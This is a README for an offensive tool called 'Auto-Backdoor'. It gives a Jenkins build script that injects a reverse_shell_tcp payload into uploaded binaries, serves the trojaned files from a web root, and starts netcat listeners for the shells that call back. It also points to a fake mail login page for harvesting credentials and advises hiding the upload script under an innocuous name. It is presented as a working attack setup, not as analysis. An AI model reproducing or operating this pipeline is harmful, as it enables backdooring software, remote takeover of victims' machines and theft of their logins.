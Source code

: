 # Auto-Backdoor
Need a jenkins server running, on it make a build, this build needs to be paramatized with the following text pramaters

`dir` 
`Payload_Type`
`port`
`IP`
`binName`


Usage: `python abd.py $BINARY $PLACE TO UPLOAD / DOWNLOAD $PUT SCRIPT LOCATION $JENKINS URL $Jenkins token $Jenkins project location $0 for linux $not used yet, always 0 $Backdoor callback port $backdoor callback ip / domain name`


##Jenkins configuration:

Standord jenkins build, easiest to change jenkins user to be same as www root if on save server (on ubuntu it is www-data, guide: http://blog.manula.org/2013/03/running-jenkins-under-different-user-in.html )
Need to edit the following in jenkins:


1: Make it a pramatrised build with the following
..1: dir
..2: Payload_Type
..3: port		(Note: For shell call back)
..4: IP		(Note: For shell call back)	
..5: binName
2: Check allow simotaius builds
3: Set allow remote triggred with a token
4: Build shell with following:

```
rp=$(expr 1024 + $BUILD_NUMBER) #make it a port that is non-reserved and non-taken, should exclude 8080 and a few others
echo $rp
cp /in/$dir .
backdoor -f $dir -P $rp -H $IP -s reverse_shell_tcp
cp backdoored/$dir /var/www/html/out/$dir
echo "\nPutting $rp session //need ip address from victom here" >> /var/www/html/list_screens_go_to_what
## NEED SCREEN AND netcat-openbsd packages (sudo apt-get install netcat-openbsd) as default nc does not have the -k flag
screen -S L_$rp -d -m \'nc -lnvkp $rp\'
#screen -ls #debugging
```

##PHP Configuration:
I use apache2 with PHP5
`sudo apt-get install apache2 libapache2-mod-php5 php5-cgi`
move the put.php into /var/www/html/ and change the name to something that would not be susspisus
if you want there is a basic template for making it look like a mail login, with cred harvesting, move everything in mail/ to /var/www/html
edit `/etc/apache2/sites-enabled/000-default.conf` and add `DirectoryIndex index.php` to index.php
	
##To get shell back:
	nc -lnvp $Backdoor Port #wait for shell

For help email ABD@rahartshorn.com

--
Robert Hartshorn
